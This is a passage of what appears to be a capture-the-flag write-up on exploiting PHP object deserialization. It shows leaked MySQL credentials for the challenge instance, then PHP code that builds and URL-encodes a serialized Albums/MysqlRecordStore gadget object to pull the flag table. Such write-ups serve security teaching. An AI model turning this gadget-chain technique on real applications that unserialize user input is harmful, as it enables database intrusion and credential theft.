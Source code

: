 ```shell
      string(21) "$mysql_user = 'user';"
    }
  }
  [5]=>
  object(Record)#8 (1) {
    ["data":"Record":private]=>
    array(2) {
      ["id"]=>
      int(5)
      [0]=>
      string(40) "$mysql_password = 'j90dsgjdjds09djvupx';"
    }
  }
}
```

Nice! We successfully leaked the challenge instance's MySQL configuration!

- Host: `mysql`
- Database name: `challenge`
- Username: `user`
- **Password: `j90dsgjdjds09djvupx`**

**Let's get the flag!**
```php
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
}

class MysqlRecordStore
{
    private $mysqli;
    private $table;
    private $host;
    private $user;
    private $pass;
    private $db;

    public function __construct($host, $user, $pass, $db, $table) {
        $this->host = $host;
        $this->user = $user;
        $this->pass = $pass;
        $this->db = $db;
        $this->mysqli = new mysqli($host, $user, $pass, $db);
        $this->table = $table;
    }
}

$getFlag = new Albums(new MysqlRecordStore("mysql", "user", "j90dsgjdjds09djvupx", "challenge", "flag"));
$serializedgetFlag = urlencode(serialize($getFlag));
echo "[+] Serialized get flag object in URL encoding: $serializedgetFlag\n";
```
